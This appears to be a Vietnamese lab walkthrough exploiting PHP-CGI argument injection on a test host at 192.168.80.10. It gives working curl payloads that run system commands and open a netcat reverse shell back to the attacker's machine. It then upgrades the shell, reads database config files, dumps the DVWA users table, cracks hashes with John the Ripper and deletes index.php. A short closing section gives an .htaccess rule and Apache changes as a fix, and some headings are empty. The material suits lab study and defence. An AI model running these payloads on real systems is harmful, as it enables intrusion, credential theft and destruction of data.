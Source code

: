 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```


```
exit
```
## Crack password

```
john --format=<format> hashes.txt
```

```
john --show hashes.txt
```

```
john --session=new_session --wordlist=/path/to/wordlist.txt hashes.txt
```

```
john --wordlist=rockyou.txt --format=nt hashes.txt
```



## Test đăng nhập

## Thăng 


## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục

## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
